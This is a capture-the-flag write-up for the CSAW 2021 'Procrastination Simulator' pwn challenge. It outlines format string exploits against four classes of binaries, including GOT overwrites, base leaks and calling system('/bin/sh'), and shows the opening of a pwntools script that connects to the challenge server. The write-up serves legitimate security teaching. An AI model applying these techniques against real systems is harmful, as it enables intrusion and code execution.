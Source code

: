 ![](/ctf/csaw-quals-2021/scp_terminal_flag.png)

## Procrastination Simulator (pwn, 430)

```text
Oh noes! I partied all weekend and now it's an hour before the CTF ends and I have school deadlines tonight too. Can you help me write 60 reports and pwn 50 challenges by Sunday afternoon? nc auto-pwn.chal.csaw.io 11001 with password cd80d3cd8a479a18bbc9652f3631c61c
```

This was an automatic exploit generation challenge; there were four binary classes spread across 50 levels. Each binary was vulnerable to a format string exploit, with more and more mitigations as they got harder. 
1. 32-bit; No PIE; Win function to shell. Overwrite GOT for exit to win function
2. 64-bit; No PIE; Win function to shell. Overwrite GOT for exit to win function but had to construct the payload a little different bc of null bytes in 64-bit addresses. 
3. 64-bit; No PIE; Win function to shell; Stripped symbols so we had to locate the win function by searching for a string of bytes. 
4. 64-bit; PIE; No win function; We get three payloads. I leaked the program base and libc bases off the stack, overwrote GOT memset with system, and then passed "/bin/sh" for the last time -- calling system("/bin/sh"). 

```python
#!/usr/bin/env python3

from pwn import *
import os
import re
context.terminal = "kitty"




def exploit_1(port, password, shell):

    r = remote("auto-pwn.chal.csaw.io", port)
    r.sendline(password)
    r.recvuntil(b"---\n")
    binary = r.recvuntil(b"-------------------\n").rstrip().replace(b"-------------------------------------------------------------------",b"")
```